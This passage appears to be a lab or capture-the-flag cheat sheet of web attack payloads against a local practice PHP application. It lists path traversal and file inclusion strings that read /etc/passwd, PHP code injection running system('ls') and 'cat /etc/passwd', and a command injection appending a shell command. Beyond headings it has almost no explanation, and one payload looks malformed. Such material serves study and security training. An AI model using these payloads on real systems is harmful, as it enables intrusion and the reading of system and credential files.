 ### 3

```jsx
wget -O - 'http://127.0.0.1/dirtrav/example3.php?file=../../../../etc/passwd%00.png'
```

---

## File Include

### 1

```jsx
?page=../../../../../../../../etc/passwd
```

### 2

```jsx
?page=../../../../etc/passwd%00
```

## Code Injection

### 1

```bash
?name=hacker";%20system("ls");//
```

### 2

```bash
?order=id);}system(%22ls22);//
```

### 3

```bash
?new=system("cat%20/etc/passwd")&pattern=/lamer/e&base=Hello%20lamer
```

### 4

```bash
?name=hacker%27.system(%22cat%20/etc/passwd%22).%27
```

## Command Injection

### 1

```jsx
?ip=%20;%20cat%20/etc/passwd
```

---